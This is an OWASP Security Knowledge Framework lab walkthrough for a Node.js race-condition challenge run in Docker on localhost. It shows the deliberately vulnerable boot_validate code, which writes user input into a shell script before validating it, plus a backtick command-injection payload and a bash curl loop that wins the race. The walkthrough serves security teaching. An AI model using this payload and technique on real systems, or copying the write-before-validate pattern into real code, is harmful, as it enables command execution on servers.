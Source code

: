 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/nodejs/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/nodejs/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/nodejs/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `boot_validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```javascript
const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '`' backtick.

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh
#!/bin/bash
while true; do

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/nodejs/RaceCondition/4.png)

Congratulations, you won the race for real now!!!!!!!!

## Additional sources

{% embed url="https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

